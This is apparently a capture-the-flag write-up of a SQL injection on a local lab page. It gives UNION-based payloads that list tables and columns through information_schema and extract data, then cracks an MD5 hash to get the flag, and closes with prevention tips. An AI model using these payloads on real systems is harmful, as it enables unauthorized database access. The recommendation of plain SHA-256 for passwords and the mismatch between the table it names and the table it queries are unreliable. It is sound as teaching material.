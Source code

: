 ## where

http://localhost:8080/index.php?page=searchimg


## Explanation

SQL injection vulnerabilities occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application. This document details various types of SQL injection attacks, including table name disclosure, boolean-based SQL injection, column name disclosure, and data extraction, highlighting the potential for unauthorized access to or manipulation of database information.


## Queries

### basic example
    1 OR 1=1
example: in backend if there is:
    SELECT * FROM users WHERE id = '1 OR 1=1';
    SELECT * FROM users WHERE id = 1 OR 1=1; (true)
returns everything from the table users

With this we know we can obtain 2 columns


### table names
    1 OR 1=2 UNION SELECT null, table_name FROM information_schema.tables

We'll need the table 'list_images'

### column names
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    or
    1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns

We'll need the columns 'title' and 'comment'

### extract table data
    1 OR 1=2 UNION SELECT title, comment from users
we get:
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?


## Decrypt password
Decrypt '1928e8083cf461a51303633093573c46' with MD5
https://md5decrypt.net/en/

Output = 'albatroz'

Convert to lowercase and encrypt with SHA256

https://10015.io/tools/sha256-encrypt-decrypt


## How to prevent

Parameterized Queries: Use parameterized queries to prevent SQL injection, as they ensure that the input is treated as a data value rather than part of the SQL command.

Input Validation: Implement strict input validation checks to reject suspicious or malformed data.

Use of Prepared Statements: With prepared statements, the SQL query is defined separately from its parameters, minimizing the risk of injection.

Employ Stronger Hashing Algorithms: Replace MD5 with more secure hashing algorithms like SHA-256 to enhance cryptographic security.
